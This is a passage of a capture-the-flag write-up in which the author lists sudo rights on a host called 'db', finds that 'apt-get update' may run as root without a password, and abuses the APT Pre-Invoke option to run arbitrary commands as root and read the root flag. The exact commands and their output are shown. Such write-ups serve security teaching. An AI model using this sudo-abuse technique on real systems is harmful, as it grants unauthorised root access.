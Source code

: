 Sudo might be promising, does my user have any permissions for sudo?

`ssh -i id_ed25519 -o StrictHostKeyChecking=no tickets@db sudo -l`

```
Matching Defaults entries for tickets on de96a44d6a0c:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User tickets may run the following commands on de96a44d6a0c:
    (root : root) NOPASSWD: /usr/bin/apt-get update *
```

So I can get package indexes, but not install or upgrade anything, that's interesting. I check the man pages for `apt-get` and find nothing particularly interesting, but I keep looking deeper in the config for `apt.config` and find an interesting sounding option:

```
Pre-Invoke, Post-Invoke
  This is a list of shell commands to run before/after invoking rpm(8). Like Options this must be specified in list notation. The commands are invoked in order using /bin/sh; should any fail APT will abort.
```

Looking at the syntax for this, it should be provided like `APT::Update::Pre-Invoke::=<cmd>` so I decide to give it a go:

`ssh -i id_ed25519 -o StrictHostKeyChecking=no tickets@db sudo apt-get update -o "APT::Update::Pre-Invoke::=id"`

```
uid=0(root) gid=0(root) groups=0(root)
Hit:1 http://security.debian.org/debian-security buster/updates InRelease
Hit:2 http://deb.debian.org/debian buster InRelease
Hit:3 http://deb.debian.org/debian buster-updates InRelease
Hit:4 http://repo.mysql.com/apt/debian buster InRelease
Reading package lists...
```

Perfect, so then using that to read the root flag should be easy:

`ssh -i id_ed25519 -o StrictHostKeyChecking=no tickets@db sudo apt-get update -o "APT::Update::Pre-Invoke::='cat /root/flag.txt'"`

```
SoT2021{829ef6f76e94e99dad40b65308eba86c}Hit:1 http://security.debian.org/debian-security buster/updates InRelease
Hit:2 http://deb.debian.org/debian buster InRelease
Hit:3 http://deb.debian.org/debian buster-updates InRelease
Hit:4 http://repo.mysql.com/apt/debian buster InRelease
Reading package lists...
```

And there's the final flag `SoT2021{829ef6f76e94e99dad40b65308eba86c}`